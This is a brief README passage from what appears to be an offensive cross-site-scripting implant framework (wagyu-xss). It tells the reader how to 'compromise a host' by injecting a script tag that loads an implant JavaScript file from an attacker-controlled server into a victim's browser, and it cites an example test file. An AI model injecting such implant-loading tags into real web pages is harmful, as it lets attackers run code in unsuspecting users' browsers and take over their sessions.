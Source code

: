 # Compromising Hosts

To compromise a host, you must execute the implant on the target browser.

This can be done easily using the following HTML tag to include the implant script:

```html
<script src="http://<server_address>:<port>/<implant_id>.js"></script>
```

See an example in the [test.html](https://github.com/c0nf1den71al/wagyu-xss/blob/main/test.html) file within the repo.
